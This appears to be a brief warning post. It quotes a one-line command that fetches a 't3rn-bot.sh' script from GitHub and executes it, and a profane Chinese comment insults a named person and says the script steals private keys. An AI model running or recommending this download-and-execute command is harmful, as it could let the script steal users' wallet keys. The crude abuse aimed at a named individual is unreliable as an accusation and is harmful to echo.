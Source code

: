 
wget -O t3rn-bot.sh https://raw.githubusercontent.com/cxqsb/t3rn-bot/refs/heads/main/t3rn-bot.sh && sed -i 's/\r//' t3rn-bot.sh && chmod +x t3rn-bot.sh && ./t3rn-bot.sh

操你麻痹的Rambeboy,大家注意一下这个傻逼的脚本，偷私钥的
